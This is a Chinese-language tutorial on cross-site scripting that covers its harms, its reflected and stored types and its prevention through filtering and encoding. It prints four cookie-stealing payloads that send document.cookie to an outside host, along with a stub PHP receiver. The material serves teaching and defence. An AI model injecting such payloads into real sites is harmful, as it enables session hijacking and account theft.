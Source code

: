 # xss

XSS, 即为（Cross Site Scripting）, 中文名为跨站脚本, 是发生在目标用户的浏览器层面上的，当渲染DOM树的过程成发生了不在预期内执行的JS代码时，就发生了XSS攻击。

**xss的危害：**

(1)网络钓鱼，包括获取各类用户账号

(2)通过document.cookie盗取cookie

(3)会话劫持，从而执行任意操作，例如进行非法转账，强制发表日志、发送电子邮件等

(4)网页挂马

(5)弹出广告，刷流量

(6)篡改页面信息,使用js或css破坏页面正常的结构与样式,，删除文章等

(7)进行大量用户攻击，如DDoS攻击

(8)传播跨站脚本蠕虫

(9)获取用户的客户端信息，例如ip地址，浏览历史，开放端口号等

(10)结合其他攻击，例如CSRF，进行进一步攻击

...

### 1.xss分类

(1)反射型

反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。

(2)存储型

存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。

最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

### 2.xss攻击方式解析

(1)cookie 盗取

原理：
  
在一个具有存储型xss(或者反射型)的网站里，攻击者就可以向漏洞页面写入可以窃取cookie的恶意代码，当用户浏览页面时，攻击者就能获取用户浏览器中的cookie信息。

攻击者可以用以下几种方式窃取cookie信息：

```html
//方式一
<script>document.location="http://www.test.com/cookie.php?cookie="+document.cookie</srcipt>

//方式二
<img src="http://www.test.com/cookie.php?cookie="+document.cookie></img>

//方式三
<script>
  new Image().src="http://www.test.com/cookie.php?cookie="+document.cookie
</script>

//方式四
<script>
 document.write('<img src="http://www.test.com/cookie.php?cookie="+document.cookie/>')
</script>
```

在远程服务器上有记录和接受cookie信息的文件：

```php
<?php
$cookie=$_GET('cookie');
...
```

攻击者获取cookie信息后，还要与web系统建立会话，才能侵入用户的账户，建立会话通常需要能修改cookie的工具，例如桂林老兵cookie欺骗工具，firefox的浏览器插件firecookie等。

### 3.xss 预防

- XSS Filter
  xss本质是web应用服务的漏洞，解决问题的根本是在web应用程序的代码中消除xss漏洞
  - input Filtering
    - 客户端输入验证
    - 输入过滤消毒，把敏感字符串如<,>,&,",#，javascript,expression等过滤掉
  - output Filtering
    - 输出编码，将敏感字符转化为html实体编码，如<转化为\&lt;
- 黑名单和白名单
  - 黑名单是明确指定哪些输入不能通过，但是很难预防，太多可能性的xss类型无法完全预防
  - 白名单是指定特定的输入格式能通过，其他的都不能，但减少了用户输入的可能性






